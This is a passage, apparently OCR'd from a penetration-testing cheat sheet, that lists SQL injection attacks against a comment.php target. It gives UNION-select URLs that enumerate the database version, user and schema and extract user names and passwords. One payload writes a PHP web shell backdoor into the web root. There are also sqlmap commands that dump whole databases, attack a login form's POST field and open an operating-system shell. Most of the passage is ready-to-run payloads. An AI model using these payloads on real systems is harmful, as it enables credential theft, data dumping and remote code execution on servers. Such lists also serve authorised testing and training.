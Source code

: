         `http://$ip/comment.php?id=738 union all select 1,2,3,4,5,6  `
        
        Determine MySQL Version:  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,@@version,6  `
        
        Current user being used for the database connection:
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,user(),6  `
        
        Enumerate database tables and column structures  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables  `
        
        Target the users table in the database  
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where        table_name='users'  `
        
        Extract the name and password  
        
        `http://$ip/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a, password),6 FROM users ` 
        
        Create a backdoor
        
        `http://$ip/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE        'c:/xampp/htdocs/backdoor.php'`
        

    -   **SQLMap Examples**

      - Crawl the links
      
         `sqlmap -u http://$ip --crawl=1`
         
         `sqlmap -u http://meh.com --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3`
         
         
      - SQLMap Search for databases against a suspected GET SQL Injection 
      
        `sqlmap –u http://$ip/blog/index.php?search –dbs`

      - SQLMap dump tables from database oscommerce at GET SQL injection
      
        `sqlmap –u http://$ip/blog/index.php?search= –dbs –D oscommerce –tables –dumps `
      
      - SQLMap GET Parameter command  
      
         `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --dump -threads=5  `
          
      - SQLMap Post Username parameter
      
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --dump-all`
           
      - SQL Map OS Shell
            
          `sqlmap -u http://$ip/comment.php?id=738 --dbms=mysql --osshell  `
      
          `sqlmap -u http://$ip/login.php --method=POST --data="usermail=asc@dsd.com&password=1231" -p "usermail" --risk=3 --level=5 --dbms=MySQL --os-shell`
            
       - Automated sqlmap scan
       